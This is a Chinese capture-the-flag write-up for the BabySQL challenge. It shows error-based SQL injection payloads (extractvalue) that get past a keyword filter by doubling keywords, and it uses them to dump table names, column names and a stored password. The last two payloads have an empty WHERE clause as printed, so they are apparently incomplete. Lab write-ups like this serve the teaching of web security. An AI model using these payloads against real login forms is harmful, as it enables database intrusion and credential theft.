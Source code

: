 # \[极客大挑战 2019]BabySQL

## \[极客大挑战 2019]BabySQL

## 考点

* SQL注入万能密码登陆
* 报错注入
* 双写Bypass

## wp

过滤了 or and from select where 双写可以绕过\
`admin' aandnd extractvalue(1,concat(0x7e,(select @@version),0x7e)) #`

获取geek库中的表 `admin' anandd extractvalue(1,concat(0x7e,(seselectlect table_name frfromom infoorrmation_schema.tables whwhereere table_schema='geek' limit 0,1),0x7e)) #`

比较关键的是 `b4bsql`，`geekuser`

获取表中的列 `admin' aandnd extractvalue(1,concat(0x7e,(seselectlect group_concat(column_name) ffromrom infoorrmation_schema.columns whwhereere table_name='b4bsql'),0x7e)) #`

两个表中的列都是 `id,username,password`

测试了一下发现 flag 在 b4bsql 的最后一个用户的 password 中

正序输出\
`admin' anandd extractvalue(1,concat(0x7e,(selselectect passwoorrd frfromom b4bsql whwhereere ),0x7e)) #`

逆序输出\
`admin' anandd extractvalue(1,concat(0x7e,(selselectect reverse(passwoorrd) frfromom b4bsql whwhereere ),0x7e)) #`

拼接一下 flag 即可

这里其实没必要成功登陆，只要 sql 语句报错就可以进行注入

